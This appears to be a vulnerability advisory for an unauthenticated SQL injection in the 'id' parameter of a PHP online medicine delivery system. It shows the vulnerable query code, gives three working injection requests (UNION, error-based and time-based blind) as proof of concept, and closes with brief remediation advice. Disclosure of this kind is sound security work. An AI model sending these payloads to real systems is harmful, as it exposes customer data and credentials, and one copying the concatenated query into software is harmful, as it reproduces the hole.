

# itsourcecode Online Medicine Delivery System V1.0 SQL Injection Vulnerability via 'id' Parameter in '/index.php'
---

## 1. Product Information
| Field | Value |
| --- | --- |
| **Product Name** | Online Medicine Delivery System |
| **Product Link** | [https://itsourcecode.com/free-projects/php-project/complete-online-medicine-delivery-system-with-sms-notification-in-php/](https://itsourcecode.com/free-projects/php-project/complete-online-medicine-delivery-system-with-sms-notification-in-php/) |
| **Vendor** | itsourcecode |
| **Affected Version** | V1.0 |
| **Authentication Required** | No, exploitable without any authentication |


## 2. Vulnerability Type
**SQL Injection**

---

## 3. Vulnerability Description
The product detail page interface `/index.php?q=single-item&id=` of Online Medicine Delivery System contains an SQL injection vulnerability. The interface receives the user-submitted `id` parameter and directly concatenates it into a multi-table join SQL query without any filtering, escaping, or type validation. Since the query results are rendered directly to the page via `loadResultList()`, an attacker can use UNION injection to echo arbitrary data onto the page, achieving data extraction.

This vulnerability can be exploited without any prior authentication and supports 4 injection types (Boolean-based blind, Error-based, Time-based blind, UNION query injection), representing a very broad attack surface.

**Affected Code**:

`single-item.php:2-6`

```php
$PROID =   $_GET['id']; 
$query = "SELECT * FROM `tblpromopro` pr , `tblproduct` p , `tblcategory` c
          WHERE pr.`PROID`=p.`PROID` AND  p.`CATEGID` = c.`CATEGID`  AND p.`PROID`=" . $PROID;
$mydb->setQuery($query);
$cur = $mydb->loadResultList();
```

---

## 4. Impact
+ **Full Database Data Disclosure**: Through UNION injection, arbitrary data from any database and any table can be directly echoed onto the page, including user password hashes, customer personal information, order data, etc.
+ **No Authentication Required**: This interface is a frontend product detail page, accessible and exploitable without any login
+ **Multiple Injection Methods**: Supports 4 injection types; even if UNION injection is somehow blocked, data can still be extracted via error-based injection or blind injection

---

## 5. PoC
**UNION Query Injection (data echo)**:

```plain
GET /index.php?q=single-item&id=1 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x716b6b7a71,0x7a74675848417361474c68645751714279625a6f4e666d7053754841784a4c5748684c7a6a496e47,0x7170716b71),NULL,NULL,NULL,NULL,NULL,NULL-- - HTTP/1.1
Host: onlinemedicinedeliverysystem:9715
Connection: close
```

**Error-based Injection**:

```plain
GET /index.php?q=single-item&id=1 OR (SELECT 5123 FROM(SELECT COUNT(*),CONCAT(0x716b6b7a71,(SELECT (ELT(5123=5123,1))),0x7170716b71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) HTTP/1.1
Host: onlinemedicinedeliverysystem:9715
Connection: close
```

**Time-based Blind Injection**:

```plain
GET /index.php?q=single-item&id=1 AND (SELECT 4058 FROM (SELECT(SLEEP(5)))GYHH) HTTP/1.1
Host: onlinemedicinedeliverysystem:9715
Connection: close
```

**sqlmap execution screenshot:**



---

## 6. Remediation
1. **Use Parameterized Queries**
2. **Input Type Validation**: The `id` parameter should be an integer

